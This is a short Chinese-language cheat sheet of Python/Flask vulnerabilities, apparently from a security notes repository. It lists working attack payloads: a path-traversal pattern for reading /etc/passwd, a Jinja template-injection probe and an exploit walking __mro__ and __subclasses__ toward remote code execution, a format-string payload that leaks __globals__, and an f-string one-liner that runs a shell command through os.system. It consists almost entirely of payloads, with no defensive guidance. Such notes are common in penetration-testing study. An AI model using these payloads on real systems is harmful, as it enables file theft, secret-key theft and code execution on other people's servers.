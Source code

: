 Python漏洞
================================

flask
--------------------------------

- 自己解析静态文件=>任意文件读取 ../ * n + /etc/passwd
- 模版注入rce
    - PoC: ``{{ 7*7 }}``
    - Exp: ``{{''.__class__.__mro__[2].__subclasses__()}}``

- 获取app.secret_key
    - 可以RCE
- 格式化字符串

::

    "welcome {user}".format(user=user)
    user = {0.__class__.__init__.__globals__}

    python3.6
    python3 -c "f'''{__import__('os').system('id')}'''"